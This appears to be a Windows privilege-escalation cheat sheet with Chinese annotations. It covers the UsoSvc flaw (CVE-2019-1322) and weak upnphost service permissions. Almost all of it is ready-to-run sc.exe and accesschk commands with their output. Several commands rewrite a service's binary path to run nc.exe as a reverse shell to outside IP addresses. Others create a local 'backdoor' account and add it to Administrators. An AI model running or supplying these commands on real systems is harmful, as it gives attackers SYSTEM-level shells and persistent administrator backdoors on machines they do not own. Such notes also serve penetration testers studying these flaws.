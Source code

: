 #### CVE-2019-1322 UsoSvc
	条件：服务帐号
	PS C:\Windows\system32> sc.exe stop UsoSvc
	PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
	PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
	PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd /C C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
	PS C:\Windows\system32> sc.exe qc usosvc
	[SC] QueryServiceConfig SUCCESS

	SERVICE_NAME: usosvc
	        TYPE               : 20  WIN32_SHARE_PROCESS 
	        START_TYPE         : 2   AUTO_START  (DELAYED)
	        ERROR_CONTROL      : 1   NORMAL
	        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
	        LOAD_ORDER_GROUP   : 
	        TAG                : 0
	        DISPLAY_NAME       : Update Orchestrator Service
	        DEPENDENCIES       : rpcss
	        SERVICE_START_NAME : LocalSystem

	PS C:\Windows\system32> sc.exe start UsoSvc
#### upnphost
	>sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
	>sc config upnphost obj= ".\LocalSystem" password= ""
	>sc qc upnphost
	>sc config upnphost depend= ""
	>net start upnphost

	如果由于缺少依赖项而失败，请尝试以下命令。

	>sc config SSDPSRV start=auto
	>net start SSDPSRV
	>net stop upnphost
	>net start upnphost
	>
	>sc config upnphost depend=""
	使用accesschk
	https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe
	https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe
	>accesschk.exe -uwcqv "Authenticated Users" * /accepteula
	RW SSDPSRV
	        SERVICE_ALL_ACCESS
	RW upnphost
	        SERVICE_ALL_ACCESS

	>accesschk.exe -ucqv upnphost
	upnphost
	  RW NT AUTHORITY\SYSTEM
	        SERVICE_ALL_ACCESS
	  RW BUILTIN\Administrators
	        SERVICE_ALL_ACCESS
	  RW NT AUTHORITY\Authenticated Users
	        SERVICE_ALL_ACCESS
	  RW BUILTIN\Power Users
	        SERVICE_ALL_ACCESS

	>sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
	>sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
	>sc stop <vuln-service>
	>sc start <vuln-service>
	>sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
	>sc stop <vuln-service>
	>sc start <vuln-service>